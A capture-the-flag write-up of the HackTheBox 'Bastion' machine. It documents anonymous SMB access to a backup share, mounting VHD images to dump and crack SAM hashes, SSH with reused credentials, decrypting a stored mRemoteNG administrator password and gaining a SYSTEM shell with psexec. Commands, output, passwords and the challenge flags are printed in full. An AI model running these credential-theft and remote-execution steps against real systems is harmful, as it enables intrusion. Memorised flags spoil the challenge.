

# Resolution summary

>[!summary]
>- **Anonymous** access to **SMB** allows to access a backup folder and download its contents, including two virtual hard disk
>- Mounting one of those **VHD** files it is possible to extract the files necessary to **dump the SAM database** and extract L4mpje credentials
>- Using previously found L4mpje credentials it is possible to obtain a low privileged shall trough SSH
>- On the machine it is installed **mRemoteNG** which **saves credentials in an insecure way**. It is possible to read the conf file containing those credentials and crack the Administrator hash in order to get a high privileged shell

## Improved skills

- Enumeration and credential harvesting
- Dumping SAM database
- Interacting with VHD files

## Used tools

- nmap
- smbmap
- smbclient
- mount & guestmount
- secretsdump
- john
- mremoteng-decrypt

---

# Information Gathering

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bastion]
└─$ nmap -p22,135,139,445,5985 -sC -sV -Pn -sT -oN scans/open-ports.txt 10.10.10.134
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:44 EDT
Nmap scan report for 10.10.10.134
Host is up (0.055s latency).

PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -33m18s, deviation: 1h09m15s, median: 6m40s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-22T16:51:38+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T14:51:36
|_  start_date: 2021-04-22T14:48:15

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds
```

# Enumeration

## Port 139 & Port 445 - SMB - Server 2008 R2 - 2012 microsoft-ds

Enumerate public shares using anonymous SMB

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bastion]
└─$ smbmap -H 10.10.10.134 -u ' ' -p ' '
[+] Guest session       IP: 10.10.10.134:445    Name: unknown                                           
[/] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\RTCNHOEVJZ, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
		
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bastion]
└─$ smbclient -L 10.10.10.134        
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

Access the backup folder end enumerate the contents

```bash
┌──(kali㉿kali)-[~/…/box/Bastion/loot/SMB_loot]
└─$ smbclient //10.10.10.134/Backups                            
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 22 11:01:53 2021
  ..                                  D        0  Thu Apr 22 11:01:53 2021
  ETWJLRFNHZ                          D        0  Thu Apr 22 11:01:30 2021
  GNOULTXZDP                          D        0  Thu Apr 22 11:00:12 2021
  nmap-test-file                      A      260  Thu Apr 22 10:53:51 2021
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  RTCNHOEVJZ                          D        0  Thu Apr 22 10:57:17 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019
  XWIJUFTSZG                          D        0  Thu Apr 22 11:01:53 2021

                7735807 blocks of size 4096. 2762422 blocks available
smb: \> get nmap-test-file
getting file \nmap-test-file of size 260 as nmap-test-file (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0.5 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> get SDT65CB.tmp
getting file \SDT65CB.tmp of size 0 as SDT65CB.tmp (0.0 KiloBytes/sec) (average 0.6 KiloBytes/sec)
...
smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> dir
  .                                  Dn        0  Fri Feb 22 07:44:02 2019
  ..                                 Dn        0  Fri Feb 22 07:44:02 2019
  L4mpje-PC                          Dn        0  Fri Feb 22 07:45:32 2019
```

Mount the folder and list WindowsImageBackup contents

```bash
┌──(kali㉿kali)-[~/…/box/Bastion/loot/SMB_loot]
└─$ sudo mount -t cifs //10.10.10.134/Backups mnt
Password for root@//10.10.10.134/Backups: 

┌──(kali㉿kali)-[~/…/box/Bastion/loot/SMB_loot]
└─$ cd mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351 

┌──(kali㉿kali)-[~/…/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd                                                      cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd                                                      cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
BackupSpecs.xml                                                                               cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml                                           cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml                                     cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml

┌──(kali㉿kali)-[~/…/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ ls -al 
-rwxr-xr-x 1 root root   37761024 Feb 22  2019 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 5418299392 Feb 22  2019 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
...
```

## Enumerate VHD files

mount the two files

```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo guestmount --add /home/kali/CTFs/HTB/box/Bastion/loot/SMB_loot/mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --ro /mnt/tmp/ -m /dev/sda1

┌──(kali㉿kali)-[/mnt]
└─$ sudo guestmount --add /home/kali/CTFs/HTB/box/Bastion/loot/SMB_loot/mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --ro /mnt/tmp2/ -m /dev/sda1

┌──(root💀kali)-[/mnt/tmp2]
└─# ls /mnt/tmp*
/mnt/tmp:
 Boot   bootmgr   BOOTSECT.BAK  'System Volume Information'

/mnt/tmp2:
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
```

# Exploitation

## Crack SAM content

Copy the files necessary to dump the SAM db

```bash
┌──(root💀kali)-[/mnt/tmp2/Windows/System32]
└─# cp config/SAM /home/kali/CTFs/HTB/box/Bastion/loot/SAM

┌──(root💀kali)-[/mnt/tmp2/Windows/System32]
└─# cp config/SYSTEM /home/kali/CTFs/HTB/box/Bastion/loot/SYSTEM

┌──(root💀kali)-[/mnt/tmp2/Windows/System32]
└─# cp config/SECURITY /home/kali/CTFs/HTB/box/Bastion/loot/SECURITY
```

Dump SAM

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bastion/loot]
└─$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
 0000   01 00 00 00 32 76 4B DC  B4 5F 47 21 59 AF 59 F1   ....2vK.._G!Y.Y.
 0010   DC 28 7F D1 92 00 16 A6  D2 E0 28 83 75 7D A9 99   .(........(.u}..
 0020   14 E3 13 84 96 70 5B 22  3E 9D 03 DD               .....p[">...
DPAPI_SYSTEM:0100000032764bdcb45f472159af59f1dc287fd1920016a6d2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up..

┌──(kali㉿kali)-[~/…/HTB/box/Bastion/loot]
└─$ john hash.list --wordlist=/usr/share/wordlists/rockyou.txt --fork=5 --format=NT
...
┌──(kali㉿kali)-[~/…/HTB/box/Bastion/loot]
└─$ john hash.list --format=NT --show
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

## Credentials reuse for L4mpje

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bastion/loot]
└─$ ssh L4mpje@10.10.10.134
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.
L4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

# Privilege Escalation

## Local enumeration

User info:

```powershell
l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje

l4mpje@BASTION C:\Users\L4mpje>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

l4mpje@BASTION C:\Users\L4mpje>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

l4mpje@BASTION C:\Users\L4mpje>net user

User accounts for \\BASTION

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
L4mpje
The command completed successfully.
```

Services:

```powershell
l4mpje@BASTION C:\Users\L4mpje>netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       1704
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       736
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       456
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       844
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       928
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1512
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       1428
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       584
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       592
  TCP    10.10.10.134:22        10.10.14.14:49028      ESTABLISHED     1704
  TCP    10.10.10.134:139       0.0.0.0:0              LISTENING       4
  TCP    [::]:22                [::]:0                 LISTENING       1704
  TCP    [::]:135               [::]:0                 LISTENING       736
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       456
  TCP    [::]:49665             [::]:0                 LISTENING       844
  TCP    [::]:49666             [::]:0                 LISTENING       928
  TCP    [::]:49667             [::]:0                 LISTENING       1512
  TCP    [::]:49668             [::]:0                 LISTENING       1428
  TCP    [::]:49669             [::]:0                 LISTENING       584
  TCP    [::]:49670             [::]:0                 LISTENING       592
  UDP    0.0.0.0:123            *:*                                    376
  UDP    0.0.0.0:500            *:*                                    928
  UDP    0.0.0.0:4500           *:*                                    928
  UDP    0.0.0.0:5050           *:*                                    376
  UDP    0.0.0.0:5353           *:*                                    892
  UDP    0.0.0.0:5355           *:*                                    892
  UDP    0.0.0.0:58385          *:*                                    892
  UDP    10.10.10.134:137       *:*                                    4
  UDP    10.10.10.134:138       *:*                                    4
  UDP    127.0.0.1:53477        *:*                                    928
  UDP    [::]:123               *:*                                    376
  UDP    [::]:500               *:*                                    928
  UDP    [::]:4500              *:*                                    928
  UDP    [::]:5353              *:*                                    892
  UDP    [::]:5355              *:*                                    892
  UDP    [::]:58385             *:*                                    892
```

System information and installed program:

```powershell
l4mpje@BASTION C:\Users\L4mpje>systeminfo
ERROR: Access denied

l4mpje@BASTION C:\>cd "Program Files (x86)"

l4mpje@BASTION C:\Program Files (x86)>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Program Files (x86)

22-02-2019  15:01    <DIR>          .
22-02-2019  15:01    <DIR>          ..
16-07-2016  15:23    <DIR>          Common Files
23-02-2019  10:38    <DIR>          Internet Explorer
16-07-2016  15:23    <DIR>          Microsoft.NET
22-02-2019  15:01    <DIR>          mRemoteNG
23-02-2019  11:22    <DIR>          Windows Defender
23-02-2019  10:38    <DIR>          Windows Mail
23-02-2019  11:22    <DIR>          Windows Media Player
16-07-2016  15:23    <DIR>          Windows Multimedia Platform
16-07-2016  15:23    <DIR>          Windows NT
23-02-2019  11:22    <DIR>          Windows Photo Viewer
16-07-2016  15:23    <DIR>          Windows Portable Devices
16-07-2016  15:23    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              14 Dir(s)  11.241.910.272 bytes free
```

## Insecure credentials in mRemoteNG

mRemoteNG configuration file:

```powershell
l4mpje@BASTION C:\Program Files (x86)\mRemoteNG>type C:\Users\%USER%\AppData\Roaming\mRemoteNG\confCons.xml
...
Userna                                                                                                           
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389"
...
```

Decrypt the weak-encrypted password:

[https://github.com/kmahyyg/mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

```bash
┌──(kali㉿kali)-[/opt/mremoteng-decrypt]
└─$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

Access the system using PsExec as SYSTEM:

```bash
┌──(kali㉿kali)-[/opt/mremoteng-decrypt]
└─$ psexec.py Administrator:thXLHM96BeKL0ER2@10.10.10.134                                                                   
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Requesting shares on 10.10.10.134.....
[*] Found writable share ADMIN$
[*] Uploading file YALpvOBT.exe
[*] Opening SVCManager on 10.10.10.134.....
[*] Creating service vHIB on 10.10.10.134.....
[*] Starting service vHIB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt* && ipconfig /all
nt authority\system
Bastion

C:\users\administrator\desktop\root.txt

958850b91811676ed6620a9c430e65c8
Windows IP Configuration

   Host Name . . . . . . . . . . . . : Bastion
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-A0-F9
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::11d8:84b5:26b3:962c(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::11d8:84b5:26b3:962c%4(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.134(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:188e%4
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-01-96-CA-08-00-27-0A-7D-93
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{8253841C-588D-4E94-B23A-993BB2E4B4D9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```



# Trophy

>[!quote]
>Whatever you are, be a good one.
>
>\- Abraham Lincoln

>[!success]
>**User.txt**
>9bfe57d5c3309db3a151772f9d86c6cd

>[!success]
>**Root.txt**
>958850b91811676ed6620a9c430e65c8

